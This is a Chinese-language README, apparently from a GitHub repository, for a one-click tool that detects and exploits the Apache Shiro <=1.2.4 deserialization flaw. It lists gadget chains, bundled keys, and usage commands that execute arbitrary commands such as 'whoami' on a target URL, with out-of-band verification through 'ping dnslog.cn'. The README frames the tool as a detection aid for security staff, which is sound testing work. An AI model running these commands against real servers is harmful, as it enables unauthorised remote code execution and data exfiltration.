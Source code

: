 
Shiro&lt;=1.2.4反序列化，一键检测工具  

增加批量检测脚本  
shiro_rce_s  <target.txt|target>  <domain_of_dnslog>  
dns外带漏洞url
使用
decode_url <code> 解码成原始url  


    2021·1·15:
    改动内容：1.删除CC8利用链
    改动内容：2.新增xray总结的k1到k4这4个利用链
    改动内容：3.新增Jdk8u20的利用链
    改动内容：4.新增GCM加密发包
    
    过往:
    改动内容：1.新增17个利用链模块,共28个利用链，预计增加成功率30%，已打包成新ysoserial的jar包，请勿更换
    改动内容：2.可直接获得目标使用key值
    改动内容：3.新增30个key(再多意义也不大)
    改动内容：4.输入命令自动进行bash编码，防止未了解此漏洞的人踩坑,但要注意的是如果执行的命令为携带``符号，常用于dnslog外带命令，需自行传入bash编码，否则终端会自行将本地执行结果带入命令中


```
共集成51个key进行fuzz
```
![](./run.png)
* 如果有帮助，请点个star哦， blog：https://www.svenbeast.com
* pip3 install -r requirments.txt   
* 若import模块错误，安装不成功，请到linux系统安装运行，或者去python库将crypto首字母改为大写并尝试pip install pycryptodome")
* 如果存在异常java信息，请使用jdk1.8环境运行，避免使用高版本java运行

* Usage：python3 shiro.py  url  command
* Usage：python3 shiro.py  http://url.com  whoami

* http://www.dnslog.cn/   验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来

* usage：python3 shiro.py  http://url.com  "ping dnslog.cn"
* 28个模块全部跑一遍,然后去dnslog平台查看是否收到请求，不出来就GG，也可能是因为目标使用的编码很冷门，可使用其他工具

* 请自行收集编码，在moule下的key.log中自行添加即可(格式: key:任意值)

## 本着尽可能的检测目标是否存在漏洞为目的所开发，并未对利用链进行大量删减
## 不推荐当做exp使用，效率问题
## 内置的yso的jar包存在tomcat回显链，并未集成到工具中，初衷是漏洞检测工具，有条件的可自行生成payload，header加入cmd:whoami即可
## 仅供安全人员验证,测试是否存在此漏洞
